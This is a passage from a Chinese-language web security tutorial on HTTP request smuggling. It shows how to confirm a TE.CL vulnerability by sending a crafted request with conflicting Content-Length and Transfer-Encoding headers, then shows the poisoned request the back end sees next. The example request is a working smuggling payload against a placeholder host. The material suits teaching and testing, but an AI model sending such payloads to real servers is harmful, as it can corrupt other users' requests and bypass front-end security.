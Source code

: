 ![1594912349](http%E8%B5%B0%E7%A7%81/1594912349.png)

#### 4.2.2 使用差分响应确认TE.CL漏洞

要确认TE.CL漏洞，您将发送如下攻击请求（需要`\r\n\r\n`在final 后面加上尾随序列`0`）：

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

如果攻击成功，则`GET /404`后端服务器将从开始将所有内容视为属于接收到的下一个请求。这将导致随后的“正常”请求如下所示：

```
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
